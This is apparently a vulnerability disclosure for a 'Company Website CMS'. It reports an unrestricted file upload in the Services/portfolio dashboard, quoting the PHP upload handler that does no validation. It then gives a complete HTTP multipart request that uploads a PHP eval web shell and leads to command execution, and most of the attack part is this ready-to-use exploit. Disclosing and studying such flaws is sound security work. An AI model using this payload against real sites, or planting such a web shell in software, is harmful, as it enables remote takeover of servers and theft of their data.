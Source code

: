 # Company Website CMS

Company Website CMS creates /dashboard/Services pages with unlimited back-end code, resulting in arbitrary file upload vulnerabilities.

The back-end code is:

```php
$uploads_dir = 'uploads/services';

        $tmp_name = $_FILES["ufile"]["tmp_name"];
        // basename() may prevent filesystem traversal attacks;
        // further validation/sanitation of the filename may be appropriate
        $name = basename($_FILES["ufile"]["name"]);
        $random_digit=rand(0000,9999);
        $new_file_name=$random_digit.$name;

        move_uploaded_file($tmp_name, "$uploads_dir/$new_file_name");
```

It can be seen that there is an unlimited file upload, only the file name is concatenated by random values and then moved.

The upload page is:

![image-20250309181419184](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092153234.png)

payload is used as follows:

```
POST /vogue/dashboard/createportfolio HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Length: 839
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/vogue/dashboard/createportfolio
Cookie: PHPSESSID=8udk6re20tpda96ncs7of8bb94
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_title"

file upload text
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_desc"

texttexttexttexttexttexttexttexttext
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_detail"

texttexttexttexttexttexttexttexttexttexttext
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="ufile"; filename="text.php"
Content-Type: application/octet-stream

<?php echo "123"; @eval($_POST[123]); ?>
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="save"


------geckoformboundaryafbda5700eee89a77231823337f34d28--
```

Successfully uploaded:

![image-20250309215400638](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092154671.png)

Then you see something like this in the foreground:

![image-20250309215418060](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092154106.png)

Click to see the file import, successfully get the file name:

![image-20250309181512766](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092154156.png)

Get the file name and access it to execute the command:

![image-20250309181803933](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092154258.png)

————————